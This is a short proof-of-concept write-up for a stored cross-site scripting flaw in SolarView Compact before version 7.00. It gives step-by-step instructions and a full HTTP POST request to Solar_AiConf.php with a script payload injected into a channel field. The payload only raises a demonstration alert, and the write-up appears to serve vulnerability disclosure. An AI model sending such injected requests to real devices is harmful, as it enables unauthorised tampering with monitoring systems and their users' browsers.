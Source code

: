 # SolarView-Compact-Stored-XSS

## Description 

Stored XSS in SolarView Compact prior to 7.00 which lead attackers to inject arbitrary script code

## POC

1. navigate to http://{HOST}/Solar_AiConf.php
2. click on update and capture the request
3. edit any of `ch*_*` values to `"><script>alert('XSS_By_Strik3r')`
  
```
POST /Solar_AiConf.php HTTP/1.1
Host: {HOST}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://{HOST}
Connection: close
Referer: http://{HOST}/Solar_AiConf.php
Upgrade-Insecure-Requests: 1

ch0_min=0&ch0_max=1.43&ch1_min=-50&ch1_max=50&ch2_min=1&ch2_max=5&ch3_min=1"><script>alert('XSS_By_Strik3r')</script&ch3_max=5&button=%8DX%90V
```

4. send the request and notice the XSS alert
5. try to refresh the page or visit it with other browser you will still have the alert pop-up
